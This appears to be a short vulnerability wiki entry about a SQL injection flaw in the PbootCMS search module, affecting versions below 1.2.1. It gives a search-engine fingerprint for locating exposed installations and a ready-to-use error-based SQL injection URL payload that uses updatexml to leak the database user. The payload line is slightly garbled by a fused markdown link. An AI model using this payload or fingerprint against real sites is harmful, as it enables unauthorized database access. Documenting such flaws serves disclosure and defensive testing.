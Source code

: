 # PbootCMS search SQL injection vulnerability

## Vulnerability Description

The PbootCMS search module has a SQL injection vulnerability. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">PbootCMS < 1.2.1</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="PBOOTCMS"</span>

## Vulnerability reappears

The search box page is

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210702112736099.png)



Payload for



```plain
/index.php/Search/index?keyword=123&updatexml(1,concat(0x7e,user(),0x7e),1));%23=123](https://127.0.0.1/PbootCMS/index.php/Search/index?keyword=123&updatexml(1,concat(0x7e,user(),0x7e),1));%23=123)
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210702112805069.png)



